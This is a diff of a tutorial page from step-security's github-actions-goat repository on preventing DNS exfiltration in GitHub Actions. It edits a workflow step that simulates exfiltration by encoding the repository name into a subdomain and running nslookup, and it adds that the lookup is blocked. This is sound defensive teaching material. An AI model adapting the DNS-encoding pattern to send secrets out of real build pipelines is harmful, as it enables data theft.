

Before and after one commit to step-security/github-actions-goat, a Markdown page: DNSExfiltration.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/DNSExfiltration.md
+++ b/DNSExfiltration.md
@@ -55,12 +55,13 @@ Learn how to prevent DNS exfiltration from a GitHub Actions worklow.
 
     ```
     - name: Simulate DNS traffic
-      run: |
-        domain="${GITHUB_REPOSITORY}.stepsecurity.io"
-        nslookup "${domain}"
+        run: |
+          domain="${GITHUB_REPOSITORY}.stepsecurity.io"
+          domain=${domain//\//-}
+          nslookup "${domain}"
     ```
 
 9. This change should cause the workflow to run, as it is set to run on push.
 
-10. Observe that the workflow shows an annotation that the DNS resolution for the call is blocked.
+10. Observe that the workflow shows an annotation that the DNS resolution for the call is blocked. If you look at the build logs, you will notice that the bash script did not recive a valid response from the DNS server, and the exfiltration attempt was blocked.
 
````
Also changed, not shown: other parts of DNSExfiltration.md (+1 -1 lines), README.md (+2 -2 lines), images/DNSExfilBlocked.png (added), 1 other file.
